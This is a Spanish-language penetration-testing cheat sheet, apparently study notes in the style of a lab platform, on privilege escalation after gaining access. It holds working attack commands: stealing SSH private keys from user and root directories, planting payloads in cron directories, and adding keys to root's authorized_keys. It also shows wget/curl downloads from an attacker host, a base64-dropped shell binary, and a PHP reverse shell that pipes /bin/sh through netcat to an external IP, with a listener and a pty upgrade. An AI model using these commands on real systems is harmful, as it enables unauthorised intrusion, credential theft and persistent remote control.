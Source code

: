 Herramientas de enumeración de informacion (Dentro del sistema - Mucho ruido)

Linux: [https://github.com/rebootuser/LinEnum.git](https://github.com/rebootuser/LinEnum.git)
        https://github.com/sleventyeleven/linuxprivchecker
Windows: https://github.com/GhostPack/Seatbelt
        https://github.com/411Hall/JAWS
General: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite (se ejecuta y automaticamente recopila)


Lista de exploits basados en los permisos que se tengan "sudoers"
Linux: https://gtfobins.github.io/
Windows: https://lolbas-project.github.io/#

Aprovechar tareas programaddas para que se ejecuten exploits a intervalos constantes

Credenciaes expuestas en Archivos de Logs
Linux: bash_historyen 
Windows: PSReadLine

Claves SSH privadas (Si esque se tiene acceso)
/home/user/.ssh/id_rsa o /root/.ssh/id_rsa

```
[!bash!]$ vim id_rsa
[!bash!]$ chmod 600 id_rsa #Se cambian los permisos, ya que si varios usuarios tienen acceso a las claves el servidor SSH la inhabilitara
[!bash!]$ ssh root@10.10.10.10 -i id_rsa
```

_______________________________________________________________

Listas de verificacion de escalada de privilegios

Linux: https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html
Windows: https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html

Scripst de Eumeracion Automatica

Linux:
- https://github.com/rebootuser/LinEnum 
- https://github.com/sleventyeleven/linuxprivchecker

Windows:
- https://github.com/GhostPack/Seatbelt
- https://github.com/411Hall/JAWS

Windows/Linux/Mac: https://github.com/peass-ng/PEASS-ng (> ./linpeas.sh)

Busqueda de software vulnerable:
dpkg -l
C:\Program Files

Comrpobar permisos de usuario
sudo -l #Verificar sobre que tiene permisos de ejecucion
User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL    #(user : user) NOPASSWD: /bin/echo --> En este el usuario puede ejecutar comandos desde "/bin/echo" sin credenciales  
sudo su - #Y podremos ejecuar todos los comandos como root - Solo si aparece el resultado anterior

Aagregar Archivos (Shell, virus, etc)
En algunas ocaciones se tiene acceso a los siguientes directorios, los cuales ejecutan programas cada cierto intervalo de tiempo, y pueden no validarlo.
/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root


Claves SSH
Aveces se suelen tener permisos de lectura sobre algunos de estos archivos que contienen la clave privada de SSH:
/home/user/.ssh/id_rsa
/root/.ssh/id_rsa

cat /home/user/.ssh/id_rsa #Se imprime y copia el contenido de la llave privada
vim id_rsa  #Se pega la llave
chmod 600 id_rsa  #Se le dan permisos estrictos ya que si el servidor SSH detecta que varios usuarios tenen permisos sobre esa clarve, la bloquea
ssh root@10.10.10.10 -p 22 -i id_rsa #Se conecta a traves de la llave

Generar Key
Tambien si se tienen permisos de escitura se puede generar una llave privada, y agregarla a "/root/.ssh/authorized_keys" con "ssh-keygen -f key"


____________________________________________________

Transferencia de archvos

Desde el host remoto se pueden usar varios comandos para descargar o llevar contenido desde nuestro host de atacante:
python3 -m http.server 8000
wget http://10.10.14.1:8000/linenum.sh

curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

scp linenum.sh user@remotehost:/tmp/linenum.sh

Usando Base64
base64 shell -w 0
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

file shell #Se verifica el tipo de archivo, si es shell es un tipo de bnario y si es exportable


_______________________________________

Herramientas de manejo de consola Bash/Powershell

PowerShell: https://underthewire.tech/wargames
Bash: https://overthewire.org/wargames/

Write-Up: https://0xdf.gitlab.io/

_____________________________________

Codigo php de prueba
<?php system('id'); ?>

Shell inverso e PHP
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>

Modo escucha co Netcat
nc -lvnp 9443

Terminal amigable
python3 -c 'import pty; pty.spawn("/bin/bash")'
_____________________







